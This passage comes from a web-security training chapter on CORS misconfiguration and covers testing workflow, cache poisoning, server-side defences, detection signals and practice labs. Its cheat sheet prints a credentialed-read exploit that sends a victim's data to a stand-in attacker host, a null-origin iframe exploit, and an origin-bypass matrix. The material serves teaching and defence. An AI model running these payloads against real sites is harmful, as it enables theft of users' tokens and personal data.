### 11.2 Burp Suite workflow

Burp's active scanner flags CORS issues automatically ("Cross-origin resource sharing:
arbitrary origin trusted"), but the manual workflow is more precise and is what you'll use to
build the PoC:

1. Capture a request to the target API in **Proxy → HTTP history**, send it to **Repeater**.
2. Add or modify the `Origin` header to `https://evil.example` and send. Inspect the response
   for `Access-Control-Allow-Origin` echoing it and `Access-Control-Allow-Credentials: true`.
3. Iterate the malformed-origin matrix in Repeater (or use **Intruder** with the Origin as the
   payload position and a wordlist of bypass origins).
4. Confirm exploitability by loading a real attacker page (Part 7) that does a credentialed
   `fetch` — Repeater proves the header, the browser proves the *read*.

**Blue-team usage:** wire a scripted version of step 2 (a `curl` that asserts the response never
reflects a foreign origin with credentials) into CI as a regression test, so a future code
change can't silently re-introduce reflection.

### 11.3 Preflight caching — `Access-Control-Max-Age`

For preflighted requests, the browser caches the `OPTIONS` result for
`Access-Control-Max-Age` seconds and skips the preflight during that window. Two consequences:

- **Slow fix propagation.** If a server had a permissive preflight and you set
  `Access-Control-Max-Age: 86400`, browsers that cached the permissive answer keep using it for
  a day after you deploy the fix — the misconfig lives on in clients. Keep `Max-Age` modest
  (minutes, not days) for anything security-sensitive so fixes take effect promptly.
- **Attack-window stability.** A long `Max-Age` makes an exploit chain more reliable during a
  test because the permissive preflight won't be re-checked mid-attack. It's not itself the bug,
  but it's a reason to note `Max-Age` values when assessing a CORS finding.

```bash
curl -s -I -X OPTIONS https://api.target.example/account/me \
  -H "Origin: https://evil.example" \
  -H "Access-Control-Request-Method: PUT" \
  -H "Access-Control-Request-Headers: authorization" | grep -i "access-control"
# Access-Control-Allow-Methods: GET, POST, PUT, DELETE   <- broad
# Access-Control-Allow-Headers: authorization            <- custom header allowed
# Access-Control-Max-Age: 86400                           <- cached a full day
```

### 11.4 `Vary: Origin` and CORS cache poisoning

When ACAO is computed *dynamically* (reflected or allow-list-selected), the response varies by
the `Origin` request header. If a shared cache (CDN, reverse proxy) in front of the app caches a
response **without** honouring `Vary: Origin`, it may store the version of the response that
carried `Access-Control-Allow-Origin: https://first-caller` and then serve that *same cached
response* — ACAO header included — to a *different* origin's request. Two failure directions:

- **Leak / poisoning toward an attacker.** A cache that stores an ACAO of a trusted origin and
  serves it broadly can, in the wrong configuration, hand an attacker a response bearing a
  usable ACAO — or, more commonly, the cache serves the attacker-poisoned ACAO to real users.
- **Denial via poisoning.** An attacker primes the cache with a request whose `Origin` yields no
  ACAO (or a broken one), and legitimate cross-origin clients then receive the cached,
  ACAO-less response and break.

The fix is mandatory whenever ACAO is dynamic: emit **`Vary: Origin`** so caches key the entry on
the `Origin` header and never cross-serve. Testing: request the endpoint twice with two
different `Origin` values through the CDN and confirm each gets its own correct ACAO (or none)
and that a second origin never receives the first origin's ACAO.

```text
# Poisoning smell test (through the caching layer):
curl -sI https://api.target/me -H "Origin: https://a.example" | grep -i 'access-control-allow-origin\|vary'
curl -sI https://api.target/me -H "Origin: https://b.example" | grep -i 'access-control-allow-origin\|vary'
# BAD:  second call returns  Access-Control-Allow-Origin: https://a.example  (cross-served, no Vary)
# GOOD: each returns its own (or none) AND  Vary: Origin  is present
```

## Part 12: Detection & Defense Angle

CORS is defended entirely on the server, by being *strict* about which origins may read
credentialed responses. In priority order:

**1. Explicit allow-list, exact match, no reflection.** Maintain a hard-coded set of trusted
origins and compare the `Origin` header with exact string equality. Never echo the `Origin`
back without checking it against the list. Never build the check from `startsWith`, `endsWith`,
`contains`, or an unescaped/un-anchored regex — those are the Part 5 bypasses.

```python
ALLOWED = {"https://app.target.example", "https://admin.target.example"}
origin = request.headers.get("Origin", "")
if origin in ALLOWED:                                  # exact equality only
    resp.headers["Access-Control-Allow-Origin"] = origin
    resp.headers["Access-Control-Allow-Credentials"] = "true"
    resp.headers["Vary"] = "Origin"
# else: emit NO ACAO — the browser blocks the cross-origin read
```

**2. Never allow `null`.** There is no legitimate need to trust `Origin: null`; it's an attacker
primitive (sandboxed iframe, `data:`). Remove it from any allow-list.

**3. Don't combine broad ACAO with credentials.** If an endpoint truly serves public data to
everyone, `ACAO: *` *without* credentials is acceptable — but then it must not return anything
sensitive. Any endpoint returning authenticated/sensitive data must use the exact-match
allow-list, never `*` and never reflection.

**4. Minimise exposure.** Keep `Access-Control-Allow-Headers`/`-Methods` tight,
`Access-Control-Expose-Headers` minimal, and don't cache preflights so long
(`Access-Control-Max-Age`) that a misconfig persists after a fix.

**5. Set `Vary: Origin`** whenever ACAO is dynamic, so a CDN/proxy doesn't cache one origin's
allowed response and serve it to another — a subtle way a "fixed" app re-introduces a leak.

**6. Prefer non-ambient auth for cross-origin APIs.** If cross-origin clients authenticate with
a bearer token in an `Authorization` header rather than cookies, a CORS read bug can't leverage
ambient cookies — the attacker's page can't attach the header. (This also helps CSRF, Chapter 4.)

**Framework-specific correct configuration.** Most CORS bugs come from hand-rolled header
logic; using a framework's vetted middleware with an explicit allow-list avoids the Part 5
pitfalls:

```python
# Flask-CORS — DO NOT use origins="*" with supports_credentials=True (it won't even work);
# list exact origins and enable credentials only for them.
from flask_cors import CORS
CORS(app,
     resources={r"/api/*": {"origins": ["https://app.target.example",
                                        "https://admin.target.example"]}},
     supports_credentials=True)          # exact origins only; middleware sets Vary: Origin
```

```javascript
// Express (cors package) — validate against a Set; reflect ONLY on exact match.
const allowed = new Set(["https://app.target.example", "https://admin.target.example"]);
app.use(require("cors")({
  origin: (o, cb) => cb(null, !o || allowed.has(o)),   // no wildcard, no regex reflection
  credentials: true
}));
```

The recurring anti-pattern to grep your own codebase for is any line that assigns the *request's*
`Origin` straight into the `Access-Control-Allow-Origin` response without membership-testing it
against a fixed list. That one line is the bug in the vast majority of real reports.

**Detection signals:**

| Signal | Where | Indicates |
|---|---|---|
| Responses reflecting arbitrary `Origin` into ACAO with `ACAC:true` | Proxy/response logs, DAST | Live misconfig |
| Requests with unusual `Origin` values (`null`, lookalike hosts) | Access logs / WAF | Probing the Origin matrix |
| Credentialed cross-origin `fetch` to sensitive endpoints from unknown referrers | RUM/egress | Active exploitation |
| Bursts of `OPTIONS` preflights enumerating methods/headers | Access logs | CORS/attack-surface probing |

**Blue-team usage:** a periodic scan (Corsy/CORScanner in CI, or a Burp scan of the API) that
sends a foreign `Origin` and asserts the response never reflects it with credentials is a cheap,
high-value regression test. **IR use case:** if data appears exfiltrated cross-origin, grep
proxy/CDN logs for responses carrying `Access-Control-Allow-Origin` values that aren't in your
official allow-list, and for requests with `Origin: null` to credentialed endpoints.

## Part 13: Common Pitfalls & Gotchas

- **Thinking `ACAO: *` with credentials works.** Spec-compliant browsers refuse `*` + creds;
  reflection is what attackers need. Don't dismiss a reflected-Origin bug because "it's not `*`."
- **Testing only the happy-path Origin.** You must run the full malformed-Origin matrix
  (suffix, prefix, substring, unescaped-dot regex, `null`) — the bug is usually in the sloppy
  match, not the exact one.
- **Reflecting Origin without `Vary: Origin`.** Even a correct allow-list can leak via cache
  poisoning if `Vary: Origin` is missing.
- **Confusing CORS with CSRF protection.** CORS does *not* stop requests being sent; it governs
  reads. A permissive CORS policy can *worsen* CSRF by permitting non-simple forged requests.
- **Assuming an ACAO reflection is exploitable without confirming a credentialed read.** Verify
  in a real browser that `credentials:'include'` actually returns data — proxies/caches can
  change runtime behaviour.
- **Trusting `http://` origins or wildcard subdomains.** Both convert a subdomain/MITM foothold
  into a main-API read.
- **Forgetting the endpoint's *content* determines severity.** A reflected Origin on an endpoint
  returning nothing sensitive is low; on an apikey/token/PII endpoint it's critical. Chain to a
  real secret.

## Part 14: Final Revision / Summary

- CORS is a controlled **relaxation of the Same-Origin Policy** (Part 1): SOP blocks cross-origin
  *reads* by default; CORS response headers opt specific origins into reading. Every CORS bug is
  over-relaxation.
- The **handshake** (Part 2) distinguishes *simple* requests (sent directly) from *preflighted*
  ones (`OPTIONS` permission check for non-simple methods/headers). Interesting credentialed
  exploits usually ride *simple* `GET`s.
- The decisive headers (Part 3) are **ACAO** and **ACAC**: `*` can't be combined with
  credentials, so attackers rely on the server **reflecting the Origin** with `ACAC: true`.
- The **critical misconfig** (Part 4) is reflected-Origin + credentials: an attacker page reads
  the victim's authenticated responses cross-origin — the SOP-forbidden read, enabling token/PII
  theft and ATO.
- The **catalogue** (Part 5) adds `null`-origin trust (sandbox-iframe trick) and sloppy
  allow-list matching (suffix/prefix/substring/unescaped-dot regex) and `http`/wildcard-subdomain
  trust.
- **Find it** by varying the `Origin` header and watching ACAO/ACAC (Part 6); **chain it**
  (Part 8) with subdomain XSS, CSRF-token theft, or MITM for maximum impact.
- **Defend** (Part 12) with an exact-match allow-list (no reflection, no `null`, no loose
  matching), `Vary: Origin`, tight exposure, and non-ambient auth for cross-origin APIs.

## Part 15: Cheat Sheet / Quick Reference

**Detect (vary the Origin)**

```bash
curl -s -I https://api.target/endpoint -H "Origin: https://evil.example" | grep -i access-control
# Vulnerable if:  Access-Control-Allow-Origin: https://evil.example  +  Access-Control-Allow-Credentials: true
```

**Malformed-Origin matrix**

| Test Origin | Catches |
|---|---|
| `https://evil.example` | naive reflection |
| `https://target.example.evil.example` | prefix/substring match |
| `https://eviltarget.example` | `endsWith("target.example")` |
| `https://targetXexample.com` | unescaped-dot regex |
| `null` | trusted-null (sandbox iframe) |

**Exploit (credentialed read)**

```html
<script>
fetch("https://api.target/account/secret",{credentials:"include"})
 .then(r=>r.text()).then(d=>new Image().src="https://evil/c?d="+encodeURIComponent(d));
</script>
```

**null-origin exploit**

```html
<iframe sandbox="allow-scripts" srcdoc="<script>fetch('https://api.target/secret',{credentials:'include'}).then(r=>r.text()).then(d=>parent.postMessage(d,'*'))<\/script>"></iframe>
```

**Header danger map**

| Header | Safe | Dangerous |
|---|---|---|
| ACAO | exact allow-list match | `*`+sensitive data, reflected Origin, `null` |
| ACAC | `true` only with exact-match ACAO | `true` with reflected/loose ACAO |
| Vary | `Origin` present when ACAO dynamic | missing → cache leak |

## Part 16: Practice Labs & Resources

- **PortSwigger Web Security Academy — CORS:** "CORS vulnerability with basic origin
  reflection", "…with trusted null origin", "…with trusted insecure protocols", and "…with
  internal network pivot attack" — one-to-one with Parts 4, 5, and 8. Free, with exploit-server
  and victim bot.
- **PortSwigger CORS topic notes & the OWASP "Testing Cross Origin Resource Sharing"
  (WSTG-CLNT-07):** authoritative background and test methodology.
- **Corsy, CORScanner, Burp Suite scanner:** automated Origin-matrix tooling for Part 6 — always
  hand-confirm with `curl` and a browser.
- **OWASP Juice Shop:** contains CORS-related challenges to practice detection and exploitation
  end to end.
- **Disclosed HackerOne reports (filter `cors`):** study accepted reflected-Origin-to-token-theft
  reports for impact framing and PoC style.

Two more escalation notes worth internalising. First, a reflected-Origin bug that returns
`Access-Control-Allow-Credentials: true` but where the endpoint currently exposes only
non-sensitive fields is still worth reporting as a **latent** critical: the moment that endpoint
starts returning a token or PII (a common refactor), the pre-existing misconfig becomes a
data-theft bug with no further attacker effort. Report the mechanism, not just the current
payload. Second, when a program's API sits behind an authentication gateway, test the CORS
headers on **both** the gateway and the origin service — gateways sometimes strip or add ACAO,
and the exploitable reflection can live on whichever layer computes the header last.

**Practice questions**

1. A server returns `Access-Control-Allow-Origin: *` on an endpoint that requires a session
   cookie to return data. Explain why an attacker page *cannot* read the authenticated response
   with that header, and what single header change would make it exploitable.
2. An API allows origins matching the regex `^https://.*\.target\.example$` but the dot before
   `target` is unescaped. Give a domain you could register that satisfies the check, and the
   exact `curl` that confirms the reflection.
3. Describe the sandboxed-iframe technique for exploiting a server that trusts `Origin: null`,
   including why the iframe's requests carry a null origin and how you exfiltrate the data out of
   the sandbox.
4. Explain how a reflected-Origin+credentials CORS bug converts a CSRF-token-protected app into
   an account-takeover, referencing the read that plain CSRF (Chapter 4) could not perform.
5. You fix a reflected-Origin bug with an exact allow-list but a CDN sits in front of the API.
   What additional response header must you set and why, and what attack occurs if you omit it?

6. Your target exposes a WebSocket endpoint `wss://target.example/notifications` that streams
   the logged-in user's alerts. Explain why the Same-Origin Policy and CORS do *not* protect it
   the way they protect a `fetch`, write the minimal attacker-page PoC that would confirm
   Cross-Site WebSocket Hijacking, and name the single server-side check that fixes it.

With this chapter the Client-Side notebook (Notebook 24) is complete: from injecting script
(Chapters 1–2), to weaponizing it (Chapter 3), to forging requests with ambient authority
(Chapter 4), to defeating the Same-Origin read barrier itself (this chapter). The Server-Side
notebook picks up where the browser ends — turning attacker-controlled input into requests and
file operations the *server* performs.
